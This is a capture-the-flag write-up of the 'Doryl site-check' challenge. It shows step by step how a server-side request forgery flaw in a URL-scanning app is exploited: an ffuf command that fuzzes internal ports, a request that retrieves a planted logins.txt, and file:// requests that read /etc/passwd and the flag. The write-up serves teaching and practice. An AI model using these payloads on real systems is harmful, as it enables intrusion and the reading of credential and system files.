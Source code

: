 ```yaml
---
id: index
aliases: []
tags:
  - CTF
  - Hack the Box
authors:
  - edson
date: "2024-09-05"
draft: false
showAuthor: false
showAuthorsBadges: false
summary: Resolution of the Doryl site-check challenge
title: Write Up - Doryl Site-Check
---
```


# CTF Doryl

## How to access the challenge

- Access <https://github.com/fguisso/doryl-site-check>, and start the challenge on
  your machine. In this case, the version delivered was on the `Internal` branch.

## Description

The challenge has the following objectives:

- Find a file with very sensitive information.
- Find a flag in the format secDevOps{.....}

### How the Application Works

- The application has only one input field, used to scan the inserted URL:

![application](https://i.imgur.com/ilyYRAt.png)
- Note that it returns the complete response of the URL that the user inserted.

![application_response_print](https://i.imgur.com/g71XYNY.png)
So it seems that the application internally sends requests to the URL.
In this principle, it is possible to insert a URL to try to access internal servers,
such as `http://localhost`.

- Use the most commonly used web ports in a bruteforce to see if there is any internal port open:
  `80,443,8009,8180,81,300,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017`.

- Use ffuf to automate the port search, the input is sent in the `target` parameter to the server, and note that I filtered the responses that have 3246 words which I considered as the site's default response.

`ffuf -u http://0.0.0.0:8080/check -X POST -d "target=http%3A%2F%2Flocalhost%3AFUZZ" -w ports.txt -H 'Content-Type: application/x-www-form-urlencoded' -fw 3246`

![print_ffuf_aplicacao](https://i.imgur.com/1eJAAko.png)

- Note that it found only 2 open ports, 8080, which provides the main site, and 3000, which provides an internal application.
- Analyze the complete response when you enter <http://localhost:3000>.


```http
GET http://localhost:3000
Content-Length: 93
Content-Type: text/html; charset=utf-8
Date: Thu, 05 Sep 2024 05:46:30 GMT
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT
<pre>
<a href="employers.html">employers.html</a>
<a href="logins.txt">logins.txt</a>
</pre>
```

- Note that it has a link to `logins.txt`, when you send the URL
<http://localhost:3000/logins.txt> in the input, it will return very
sensitive information.

```http
GET http://localhost:3000/logins.txt
Accept-Ranges: bytes
Content-Length: 233
Content-Type: text/plain; charset=utf-8
Date: Thu, 05 Sep 2024 05:50:52 GMT
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT
// Super sensitive information

// WiFi
id: Doryl
password: 2022doryl@*

// Guest WiFi
id: Doryl-Guest
password: dorylguest2022

// Intranet
login: admin
password: Adminqwert2022

// Ginpass
login: dorylAdmin
password: ginAndOrange
```

#### First Step Completed

### Find the FLAG

- Note that the server sends an internal request to the inserted URL,
  using the `http` protocol. Based on this, we can test other common schemes
  to access files on internal servers, such as the `file` scheme.

- Let's try to retrieve a common file on Linux servers, the `/etc/passwd`,
  to check if it returns the content. Enter the URL `file:///etc/passwd` in the input field.


```http
GET file:///etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
```

- This response is the content of `/etc/passwd`, so we can try to retrieve
  the flag that is stored in the system. It is common in CTFs for the flag to be in the same
  folder as the challenge and named `flag.txt`. Based on this principle, we can
  enter `file://./flag.txt`.

```http
GET file://./flag.txt

SecDevOps{SSRF_3_UM_PERIGOnvim .!}

```

All objectives were completed ( ;

|Challenge Creator: <https://github.com/fguisso>

